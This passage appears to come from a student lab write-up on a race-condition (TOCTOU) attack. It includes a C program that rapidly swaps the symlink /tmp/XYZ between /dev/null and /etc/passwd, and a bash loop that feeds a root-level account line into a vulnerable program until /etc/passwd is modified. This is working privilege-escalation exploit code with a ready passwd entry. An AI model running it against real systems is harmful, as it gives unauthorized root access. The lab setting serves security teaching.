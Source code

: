 But behind the scenes, we have to do something manually. Initially we executed the `ln -sf /dev/null /tmp/XYZ` which maps the `/tmp/XYZ` file to the `/dev/null` file. But when the vulnerable program is stuck in the 10-second sleep call, we change the `/tmp/XYZ` link to map to the `/etc/passwd` file using the command `ln -sf /etc/passwd /tmp/XYZ`. Later on, the vulnerable script will append the line `test:U6aMy0wojraho:0:0:test:/root:/bin/bash` to the `/etc/passwd` file making the attack successful.


### Task 2.B

In the previous attack, we manually changed the symbolic link from `/tmp/XYZ` to `/dev/null`. In this one, we modify the program to do it for us.

Attack script (`attack.c`):

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>

int main()
{
    while(true) {
        unlink("/tmp/XYZ");
        symlink("/dev/null","/tmp/XYZ");
        
        unlink("/tmp/XYZ");
        symlink("/etc/passwd","/tmp/XYZ");
    }

    return 0;
}
```

Script to run vulnerable program in loop (`target_process.sh`):

```bash
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]  
do
   echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp 
   new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

After several attempts to get the attack to succeed because of the issue caused when the owner of the symbolic link is the root, that takes off the ability of our attacking program to make changes to the `/tmp/XYZ` symlink, as we will further detail in the next task, we finally got our program to succeed and add the desired line to the `/etc/passwd` file.
